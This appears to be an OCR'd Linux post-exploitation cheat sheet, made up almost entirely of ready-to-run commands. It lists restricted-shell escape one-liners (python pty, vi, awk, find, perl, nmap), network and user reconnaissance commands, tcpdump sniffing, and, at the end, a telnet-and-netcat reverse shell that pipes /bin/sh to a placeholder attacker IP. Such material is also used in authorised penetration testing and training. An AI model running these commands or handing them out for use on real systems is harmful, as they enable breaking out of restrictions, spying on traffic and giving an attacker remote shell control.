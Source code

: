 
    == Common Shell Escape Sequences: ==
## If commands are limited, you break out of the "jail" shell?
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i

:!bash vi, vim
:set shell=/bin/bash:shell vi, vim
!bash man, more, less
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; find
awk 'BEGIN {system("/bin/bash")}' awk
--interactive nmap
perl -e 'exec "/bin/bash";' Perl 
 
 
    == What other users & hosts are communicating with the system? ==
lsof -i 
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w

    == Whats cached? IP and/or MAC addresses ==
arp -e
route
/sbin/route -nee


    == Is packet sniffing possible? What can be seen? Listen to live traffic ==
## http://www.rationallyparanoid.com/articles/tcpdump.html
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
tcpdump -n dst host 192.168.1.5 -vvv -n -w file.cap


    == Have you got a shell? Can you interact with the system? ==
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
